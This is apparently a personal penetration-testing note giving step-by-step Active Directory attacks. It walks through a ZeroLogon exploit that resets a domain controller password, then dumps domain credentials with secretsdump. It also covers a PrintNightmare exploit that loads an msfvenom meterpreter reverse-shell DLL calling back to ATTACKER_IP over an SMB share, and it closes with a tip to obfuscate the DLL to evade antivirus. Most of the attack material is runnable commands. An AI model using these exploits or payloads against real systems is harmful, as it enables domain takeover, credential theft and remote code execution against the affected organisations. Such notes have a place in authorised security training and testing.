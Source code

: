 There are new and recent vulnerabilities in Active Directory such as:
- `ZeroLogon` (if not executed in the right way can destroy the domain)
- `PrintNightmare`
- `Sam the Admin`

It has sense to check for them in the environment.

These vulnerbilities are very severe and can be dangerous for the domain.



# Abusing ZeroLogon
**==This type of attack can set the domain controller password to `null` and give then completely access to it.==**

==**But if we don't restore the password we will destroy the domain.**==

The attack is based on a problem on the cryptography and it is very complex.



First of all we need the exploit that can be found here [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Another important tool we need to use to understand if the domain controller is vulnerable to this attack is [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

## Step 1 : run the checker
All we need to do is to run the tester with the domain controller name and the IP:
```bash
python3 zerologon_checker.py DOMAIN_C_NAME D_C_IP
```
- ![[Pasted image 20241221154211.png]]

This tells us if it is vulnerable. In general we can stop here since the attack is very dangerous.


## Step 2 : run the attack
Now we can run the attack in this way:
```bash
python3 cve-2020-1472-exploit.py DOMAIN_C_NAME DOMAIN_C_NAME
```
- ![[Pasted image 20241221154456.png]]


At this point we cna use `secretsdump` to see if worked.
```bash 
secretsdump.py --just-dc DOMAIN/DOMAIN_C_NAME\$@D_C_IP
```
- we just need to push `enter` and we are in
- ![[Pasted image 20241221154658.png]]


So we have all the infomration now and we are in.


## Step 3 : restore the machine

**==It is very important, otherwise we corrupt the system.==**

At this point we get the administrator hash (the last part) from the results of the command `secretsdump` and we run:
```bash
secretsdump.py administrator@DOMAIN_C_IP -hashes ADMIN_HASH
```
- ![[Pasted image 20241221154927.png]]


From here we need to get the `plain_password_hex` and use it to restore the password:
- ![[Pasted image 20241221155036.png]]


At this point we have to run the `restorepassword` tool contained in the folder:
```bash
python3 restorepassword.py DOMAIN/DC_NAME@DC_NAME -target-ip DC_IP -hexpass HEX_PASS
```
- ![[Pasted image 20241221155230.png]]



# PrintNightmare attack
**==This attack takes advantages of the printer spooler (used to add printers and so on).==**
The problem is that it is run with privilege on the system.

So this attacks allows to execute code in a privilege mode.

We need to use the tool [[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)]([https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675))
## Step 1 : check if vulnerable
To check if it is vulnerable to this CVE we have to run:
```bash
rpcdump.py @DOMAIN_C_IP | egrep 'MS-RPRN|MS-PAR'
```
- ![[Pasted image 20241221155739.png]]


If we see this print, it is vulnerable.

## Step 2 :  setup for the attack

First of all we need to install `impacket` (a specific version contianed in the tool):
```bash

pip3 uninstall impacket

git clone https://github.com/cube0x0/impacket

cd impacket

python3 ./setup.py install

```


## Step 3 : use msfvenom to create a shell code to insert in a dll

For example we create a remote shell:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f dll > shell.dll
```
- ![[Pasted image 20241221160423.png]]

At this point we run a listener on msfconsole:
```bash
msfconsole

use multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lport PORT_USED_IN_THE_DLL

set lhost ATTACKER_IP

run
```


Perfect, now we need to setup a fileshare, in order to shell the `shell.dll` so we can do:
```bash
cd impacket

smbserver.py share `pwd`-smb2support

```


## Step 3 : run the attack
To run the attack we can just do:
```bash
python3 CVE-2021-1675.py DOMAIN/unsername:PASSWORD@DC_IP '\\ATTACKER_IP\share\shell.dll'
```
- ![[Pasted image 20241221160928.png]]

If we have an error we need to run the `smbserver` as smb2support. It would be:
- ![[Pasted image 20241221161149.png]]

GENERALLY ANTIVIRUS WILL BLOCK US!

If not we could execute commands:
- ![[Pasted image 20241221161309.png]]

<mark style="background: #FF5582A6;">We just need to obfuscate the dll file to bypass the antivirus.</mark>
- with `msfconsole` we can do it




